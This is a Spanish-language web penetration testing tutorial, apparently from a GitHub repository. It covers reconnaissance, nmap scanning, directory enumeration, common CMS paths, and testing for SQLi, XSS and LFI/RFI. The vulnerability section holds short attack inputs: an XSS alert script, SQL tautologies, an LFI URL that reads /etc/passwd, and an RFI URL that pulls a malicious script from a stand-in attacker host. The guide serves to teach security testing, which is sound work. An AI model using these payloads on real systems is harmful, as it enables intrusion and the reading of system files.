


# Pentesting Web

El pentesting web es una práctica de seguridad informática que se centra en evaluar la seguridad de aplicaciones y sitios web. Consiste en simular ataques controlados para identificar y verificar vulnerabilidades en sistemas web antes de que puedan ser explotadas por atacantes maliciosos.

**Objetivos principales del pentesting web:**

- **Identificar** vulnerabilidades en aplicaciones web.
- **Evaluar** la efectividad de los controles de seguridad implementados.
- **Ayudar** en el cumplimiento de normas de seguridad y privacidad de datos.
- **Proporcionar** una visión realista del estado de seguridad actual de la aplicación web.

Lo primero que debes hacer cuando te dan una página web para realizar un pentesting es comenzar con la fase de **reconocimiento**. Esta fase es crucial ya que proporciona la base para todas las etapas posteriores del pentesting web.

**1. Reconocimiento inicial**

Verifica la conectividad con la máquina objetivo usando ping:
```bash
ping <IP_address>
```
Realiza un escaneo rápido de puertos con nmap: 
```bash
nmap -sV -p- <IP_address>
```

**2. Exploración manual del sitio web**

Accede a la página web a través del navegador: 
```txt
http://<IP_address>
```

Explora la estructura del sitio, identifica funcionalidades y posibles puntos de entrada
Revisa el código fuente de las páginas en busca de comentarios o información útil.

**3. Identificacion de tecnologías de la web**

Utilizar aplicaciones externas para ver como está creado el servicio web.
```
ej. Wappalyzer
```

**4. Enumerar directorios**

Usar herramientas para descubrir directorios y archivos ocultos:
```bash
# dirb
dirb http://<IP_address>
```
```bash
# gobuster
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://<IP_address> -T 100
```

Buscar siempre los directorios/archivos más comunes:

**5. Análisis de vulnerabilidades comunes**

Buscar formularios de inicio de sesión/registro, comentarios, parámetros en URLs, etc.
Busca manualmente vulnerabilidades como inyección SQL, XSS, LFI/RFI

Utiliza herramientas automatizadas como Nikto: 
```bash
nikto -h http://<IP_address>
```

**6. Parar peticiones**

Ver como el servidor trata las peticiones hechas por los clientes, podemos utilizar aplicaciones como **burpsuit** o **zap**

**7. Reporte**

Una vez terminado con el análisis de la web toca recopilar todo lo que hemos encontrado en un reporte que entregaremos a los superiores posteriormente.

---
Vamos a profundizar *un poco más* en los temas anteriores, explicar algunos conceptos y tratar varios ejemplos.

## 1. Reconocimiento

Podemos empezar de 3 formas diferentes, sabiendo todo sobre el servicio que vamos a vulnerar(White Box), sabiendo algunas cosas como tecnologías, nombres de dominio e IP(Grey Box) o sin saber absolutamente nada del servicio(Black Box). Nosotros vamos a trabajar siempre con **Grey Box** o **White Box**.
Lo primero que haremos es probar la conexión con el servidor ingresendo la URL/IP en el navegador o haciendo un ping. Si ambos fallan, podrían estar bloqueando las conexiones **ICMP** o estamos conectandonos al puerto incorrecto. Para comprobarlo, tenemos que hacer un escaneo de puertos de la siguiente forma:
```bash
# Comando
nmap -sV localhost

# Resultado
Starting Nmap 7.92 ( https://nmap.org ) at 2025-03-08 15:57 Hora estßndar romance
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000049s latency).
Other addresses for localhost (not scanned): ::1
rDNS record for 127.0.0.1: kubernetes.docker.internal
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
135/tcp  open  msrpc           Microsoft Windows RPC
445/tcp  open  microsoft-ds?
902/tcp  open  ssl/vmware-auth VMware Authentication Daemon 1.10 (Uses VNC, SOAP)
912/tcp  open  vmware-auth     VMware Authentication Daemon 1.0 (Uses VNC, SOAP)
2179/tcp open  vmrdp?
7070/tcp open  ssl/realserver?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.96 seconds
```
De esta forma, podremos ver todos los puertos abiertos de la máquina, y así encontrar el puerto correcto al que nos tenemos que conectar.

## 2. Exploración manual del sitio web

Una vez accedido a la web, debemos revisar cada minuscula parte de esta. Parecerá una estupidez, pero todos somos humanos y los humanos nos equivocamos, debemos revisar el código fuente de la aplicación buscando todo tipo de información que nos ayude en nuestro análisis: comentarios, funciones, cookies/tokens, etc.
Esta parte no tiene mucho más, pero nos ayudará a encontrar algunos directorios más rápido que con el siguiente paso, de esta forma, podemos dejar el escaneo de fondo y poder seguir trabjando y no perder el tiempo.

## 3. Identificacion de tecnologías de la web

Este apartado es uno de los más importantes. Debemos utilizar herramientas como **Wappalizer** para escanear los servicios que tiene la web, de esta forma, podríamos identificar como está montada la web: Servidores web, CMS, gestores de bases de datos, etc.



## 4. Enumerar directorios

Un análisis manual puede ayudarnos mucho, pero se queda corto muy rápido, además, teniendo herramientas automáticas de enumeración de directorios, podemos listar todos los directorios de la web en unos pocos segundos. Tenemos varias aplicaciones para lograr esto, unos ejemplos son:

- dirb
```bash
dirb http://example.com /path/to/wordlist.txt -t 100
```

- gobuster(mi favorita)
```bash
gobuster dir -u http://example.com -w /path/to/wordlist.txt -t 100
```

- dirbuster



También, en caso que la enumeración no nos los de, debemos probar manualmente los siguientes directorios:

#### Directorios generales
Estos directorios suelen estar presentes en la mayoría de las aplicaciones web.

- **robots.txt**: Archivo que contiene reglas para los motores de búsqueda sobre qué partes del sitio deben o no ser indexadas.

- **sitemap.xml**: Archivo que proporciona información sobre la estructura del sitio web a los motores de búsqueda.

- **admin/** o **administrator/**: Panel de administración del sitio web.

- **login/**: Página de inicio de sesión.

- **uploads/**: Directorio donde se almacenan archivos subidos por los usuarios.

#### WordPress
WordPress es uno de los CMS más utilizados, y su estructura incluye:

- **wp-admin/**: Contiene archivos relacionados con el panel administrativo.

- **wp-content/**: Almacena temas, plugins y contenido multimedia. Subdirectorios importantes:

    - **wp-content/plugins/**: Plugins instalados.

    - **wp-content/themes/**: Temas activos e instalados.

    - **wp-content/uploads/**: Archivos multimedia subidos al sitio.

- **wp-includes/**: Contiene archivos principales y librerías necesarias para que WordPress funcione.

#### Joomla
Otro CMS popular con una estructura característica:

- **administrator/**: Panel administrativo.

- **components/**: Almacena extensiones instaladas.

- **modules/**: Archivos relacionados con los módulos del sitio.

- **templates/**: Plantillas utilizadas en el diseño del sitio.

#### Drupal
Drupal tiene una estructura modular:

- **core/**: Archivos principales del sistema.

- **modules/**: Módulos instalados para extender funcionalidades.

- **themes/**: Plantillas usadas para el diseño.

- **sites/default/files/**: Contenido multimedia subido.

Podemos convinar el escaneo de directorios con estos que ya conocemos para aumentar la lista de directorios.

## 5. Análisis de vulnerabilidades comunes

Ahora que ya tenemos todos los directorios de la web, toca buscar formularios, subida de archivos, comentarios, parámetros en URLs, etc, para probar con las vulnerabilidades más típicas: SQLi, XSS, LFI/RFI. Vamos a tratar todos los temas:

#### SQLi

- Identifica puntos de entrada de datos, como formularios o parámetros URL.
- Prueba caracteres especiales como comillas simples (') o dobles (") en los campos de entrada.
- Intenta modificar consultas SQL añadiendo operadores lógicos (AND 1=1, OR 1=1).
- Observa si la aplicación muestra errores de base de datos o comportamientos inesperados.

#### XSS

- Busca campos de entrada que se reflejen en la página web.
- Intenta insertar código JavaScript simple, como <script>alert('XSS')</script>.
- Prueba diferentes variaciones para evadir posibles filtros.
- Verifica si el código se ejecuta en el navegador.

#### LFI/RFI

- Identifica parámetros que puedan incluir archivos, como "page" o "file".
- Para LFI, intenta acceder a archivos del sistema usando rutas relativas o absolutas.
- Para RFI, prueba incluir archivos remotos usando URLs completas.
- Observa si puedes leer archivos sensibles o ejecutar código remoto.

Ejemplo LFI:

```
http://vulnerable-website/file.php?file=../../../../etc/passwd
```

Ejemplo RFI:

```
http://vulnerable-website/file.php?file=http://attacker.com/malicious_script.php
```
## 6. Parar peticiones

Si usamos aplicaciones para parar las peticiones que el cliente(nosotros) hago con el servidor, podemos ver como tratan algunas consultas.